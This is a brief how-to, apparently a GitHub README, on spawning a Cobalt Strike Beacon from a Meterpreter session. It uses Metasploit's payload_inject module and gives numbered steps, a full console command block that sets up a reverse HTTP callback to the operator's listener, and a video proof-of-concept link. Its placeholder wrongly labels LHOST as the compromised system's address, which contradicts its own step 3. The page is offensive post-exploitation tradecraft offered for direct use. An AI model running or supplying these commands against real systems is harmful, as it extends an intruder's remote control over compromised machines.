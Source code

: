# Spawn Beacon from Meterpreter

### To spawn a Beacon from a Meterpreter session use the payload_inject exploit to deliver your Beacon. Here are the steps to do this:

1. Use the exploit/windows/local/payload_inject module

2. Set PAYLOAD to windows/meterpreter/reverse_http for an HTTP Beacon. Set PAYLOAD to windows/meterpreter/reverse_https for an HTTPS Beacon.

3. Set LHOST and LPORT to point to your Cobalt Strike listener.

4. Set DisablePayloadHandler to True.

5. Set SESSION to the session ID of your Meterpreter session

#### And, here’s what this looks like in the Metasploit Framework console:

<pre>
use exploit/windows/local/payload_inject
set PAYLOAD windows/meterpreter/reverse_http
set LHOST [IP address of compromised system]
set LPORT 80
set SESSION 1
set DisablePayloadHandler True
exploit –j
</pre>

[VIDEO POC](https://youtu.be/IZqVpOfQ4zA)